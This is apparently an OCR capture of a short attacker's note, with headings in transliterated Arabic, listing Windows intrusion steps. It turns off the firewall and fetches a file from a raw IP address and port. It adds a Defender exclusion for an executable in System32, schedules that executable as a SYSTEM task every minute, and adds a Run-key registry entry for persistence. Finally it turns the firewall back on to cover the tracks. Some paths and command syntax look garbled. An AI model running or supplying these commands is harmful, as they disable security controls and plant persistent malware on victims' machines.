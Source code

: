 ~/Sam/opt

**1- 6y7 defe/fire
**

netsh advfirewall set allprofiles state off
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False


**2- 7ml almlf wa 76h bmkan kywais :
**

http://31.166.215.197:45000

**3- Excelude almlf >> mn al defend :
**


powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath "C:\Window\System32\easycofe.exe"


**4- Schedule a new task
**

schtasks /create /sc minute /mo 1 /tn Tinasoft /tr -c C:\Windows\System32\easycofe.exe /ru SYSTEM

**5- 76 regi in case :
**

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"


**5- sh3'l al def/fire :
**


netsh advfirewall set allprofiles state on
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True
